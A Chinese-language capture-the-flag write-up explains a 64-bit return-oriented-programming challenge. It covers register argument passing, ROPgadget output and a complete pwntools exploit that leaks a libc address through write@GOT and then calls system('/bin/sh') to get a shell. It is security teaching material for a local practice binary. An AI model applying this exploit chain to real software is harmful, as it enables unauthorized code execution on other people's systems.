 # 一道简单的`x64 ROP PWN`

### 描述
这道题与上一题基本一样，仅仅是架构变成64位了

于是exp也可以按照上一题的思路写

唯一的变化是64位下的传参方式

在`x86`架构下，程序直接使用栈来传参

在`x64`下，程序使用寄存器传递前几个参数，其余参数使用栈传递
具体如下：
```
当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。

当参数为7个以上时， 前 6 个与前面一样， 但后面的依次从 “右向左” 放入栈中，即和32位汇编一样。

```

### 书写exp前段部分
```
#!/bin/python3
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

io = process("level3_x64")
elf = ELF("level3_x64")
libc =ELF("/lib/x86_64-linux-gnu/libc.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
vulnerable_function = elf.symbols["vulnerable_function"]

io.recv()
```

### 构造payload
基本思路与上一题一致，只需要在构造payload的时候重新写传参方式
`x86`下的payload：
```
溢出偏移量 + write函数plt地址 + 漏洞函数地址 + 1 + write的got表地址 + 4
```
因此在64位情况下需要控制rdi，rsi，rdx寄存器以传递三个参数

使用ROPgadget查找可以控制以上寄存器的gadget：
```
pwn3_x64$ ROPgadget --binary level3_x64 --only 'pop|ret'
Gadgets information
============================================================
0x00000000004006ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop r14 ; pop r15 ; ret
0x00000000004006b2 : pop r15 ; ret
0x00000000004006ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400550 : pop rbp ; ret
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
0x00000000004006ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400499 : ret

Unique gadgets found: 11
```
注意这几条：
```
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
```
于是我们在构造ROP利用链之后，获得了可以操作前两个参数的能力，但并不能操作rdx

rdx寄存器的值需要看运气，这个参数决定了write函数能打印出的长度

因此理论上只要该值大于等于8就能达到目的

于是exp添加两个gadget的地址
```
pop_rdi_ret = 0x00000000004006b3
pop_rsi_r15_ret = 0x00000000004006b1
```

组装payload：
```
payload = cyclic(0x80 + 8) + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(write_plt) + p64(vulnerable_function)
```
`即：偏移量 + rdi赋值为1 + rsi，r15赋值为write_got和0 + write地址 + 漏洞函数地址`

至于第二部分的payload就比较简单了，将第一个参数的寄存器赋值为`/bin/sh`然后调用函数即可

## 完整exp：
```
#!/bin/python3
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

io = process("level3_x64")
elf = ELF("level3_x64")
libc =ELF("/lib/x86_64-linux-gnu/libc.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
vulnerable_function = elf.symbols["vulnerable_function"]
pop_rdi_ret = 0x00000000004006b3
pop_rsi_r15_ret = 0x00000000004006b1

io.recv()
payload = cyclic(0x80 + 8) + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(write_plt) + p64(vulnerable_function)
io.sendline(payload)
write_real = u64(io.recv(8))

system_real = write_real - libc.symbols["write"] + libc.symbols["system"]
bin_sh_real = write_real - libc.symbols["write"] + next(libc.search(b"/bin/sh"))

payload2 = cyclic(0x80 + 8) + p64(pop_rdi_ret)  + p64(bin_sh_real) + p64(system_real)
io.recv()
io.sendline(payload2)
io.interactive()
```


